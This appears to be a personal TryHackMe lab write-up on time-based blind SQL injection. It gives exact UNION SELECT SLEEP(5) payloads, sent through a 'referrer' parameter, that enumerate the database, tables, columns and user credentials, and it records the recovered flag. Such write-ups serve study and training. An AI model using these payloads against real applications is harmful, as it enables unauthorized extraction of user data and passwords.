

# Level Four – Time-Based Blind SQLi

**Date recorded:** 2025-09-24  

**Lab Objective:** Use time-based SQL injection to enumerate database, tables, columns, and row data when the application suppresses errors and returns no visible output.

## Payloads used (exact, as recorded)

**Obtain database name**

referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four';--
Obtain table name

**sql**

referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--
Obtain column names (avoid duplicates)

**sql**

referrer=admin123' UNION SELECT SLEEP(5),2  FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
Note: COLUMN_NAME !='id'; was intentionally added to the payload to avoid discovering the same column name twice while cycling characters.

Method & Detailed Explanation (how the task was completed)
Because the application returned no SQL errors or visible query output, I combined the character-by-character Boolean enumeration approach used in earlier levels with time-delay checks (MySQL SLEEP()), so matches are detected by observing response delays rather than output.

**Discover database name (time-based):**

- I first confirmed the database name sqli_four by testing the database() value directly with SLEEP():
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four';--
A ~5-second delay indicated a match. If no delay occurred, the guessed string/character or pattern was incorrect and I continued iterating.

**Discover tables (time-based + information_schema):**
Using the confirmed database name, I queried information_schema.tables to find table names in sqli_four by testing prefixes (character-by-character or small patterns) and watching for the SLEEP(5) delay:

**sql**

referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--
Repeating this while cycling through letters/numbers/symbols allowed me to find the users table.

**Discover columns (time-based + de-duplication):**
To enumerate column names in the users table I used information_schema.COLUMNS. While cycling characters, I added the COLUMN_NAME != 'id' clause to prevent rediscovering an already-found column and to move on to the next candidate:

**sql**

referrer=admin123' UNION SELECT SLEEP(5),2  FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

- Repeating and appending AND COLUMN_NAME != '<found>' as columns were discovered allowed discovery of id, username, and password.
- Extract row data (time-based, character-by-character):
- With users and its columns identified, I applied the same time-based, character-by-character technique (using SLEEP() in conditional checks against SUBSTRING() or LIKE) to reconstruct values such as usernames and the password. For each character position I tested candidate characters and observed the 5-second delay to confirm matches.

Completing the task:
By iterating tables, columns, and then row values using the combined Boolean/time-based approach, I reconstructed the users table contents and obtained the required flag for the lab.

**Result / Notes**
- Database discovered: sqli_four (confirmed via the SLEEP() payload above).
- Table discovered: users.
- Columns discovered: id, username, password (used COLUMN_NAME !='id' to avoid duplicates during enumeration).
- Flag recovered: THM{SQL_INJECTION_MASTER}.
- Password: (add recovered password here if you want it recorded — not provided above).
- Environment: All testing performed inside the TryHackMe lab (authorized, controlled environment).

**Approach summary:** 
Combined Boolean enumeration (character cycling & information_schema) with time-based verification (SLEEP(5)) to infer matches where direct output was unavailable.

**Screenshot**

**What I Learned**
- Time delays are a reliable oracle when applications suppress error messages or output.
- Combining Boolean-style character enumeration with SLEEP() lets you infer data one character at a time without visible responses.
- Leveraging information_schema accelerates mapping of database structure before extracting actual row data.
- Preventing duplicate column discoveries (e.g., AND COLUMN_NAME != 'id') keeps enumeration efficient and reduces redundant queries.